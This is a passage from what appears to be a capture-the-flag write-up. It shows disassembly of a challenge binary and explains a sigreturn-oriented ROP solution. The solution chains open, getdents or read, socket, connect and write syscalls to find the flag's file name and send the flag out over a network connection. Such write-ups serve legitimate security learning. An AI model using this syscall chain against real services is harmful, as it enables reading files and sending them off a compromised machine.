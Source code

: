 ```
   0x133700000027:	xor    r13,r13
   0x13370000002a:	xor    r14,r14
   0x13370000002d:	movabs rsp,0x6900000000
   0x133700000037:	mov    r14,0x3
   0x13370000003e:	dec    r14
   0x133700000041:	mov    rdi,r14
   0x133700000044:	mov    rax,0x3
   0x13370000004b:	syscall 　　　　　　　　<= Mainly used ROP gadget
   0x13370000004d:	test   r14,r14
   0x133700000050:	jne    0x13370000003e
   0x133700000052:	mov    rax,r15
   0x133700000055:	ret    
```

Also, since the standard input, standard output, and standard error output are closed at the end of the above code, the flag cannot be output to the standard output.

Furthermore, the file name of the flag is a file name such as `0101010110101010`, so I had to get the file name somehow first.

## Solution:

The ROP gadgets available are limited, but I've found that I can call any system call using the ROP gadgets below.

In order to call any system call, I need to set an arbitrary value in the r15 register, but the 256 remainder of the first input size goes into r15.
```
   0x13370000004b:	syscall
   0x13370000004d:	test   r14,r14
   0x133700000050:	jne    0x13370000003e
   0x133700000052:	mov    rax,r15
   0x133700000055:	ret
```

I used `sys_rt_sigreturn (15)` as a way to set the value in each register.
`sys_rt_sigreturn (15)` can be read from the stack and set to all registers.

By calling the system calls in the following order while using `sys_rt_sigreturn (15)`, the file name could be output to the local environment.

```
- sys_open("./", 0, 0x200000)
- sys_getdents(0, mem+0xb00, 0x300)
- sys_socket(2, 1, 6)
- sys_connect(1, mem+0xe80, 0x10)
- sys_write(1, mem+0xb00, 0x300)
```

The file name was `0101111001001101`.

Similarly, by calling the system calls in the following order, the flags could be output to the local environment.

```
- sys_open("./", 0, 0x200000)
- sys_read(0, mem+0xb00, 0x300)
- sys_socket(2, 1, 6)
- sys_connect(1, mem+0xe80, 0x10)
- sys_write(1, mem+0xb00, 0x300)
```
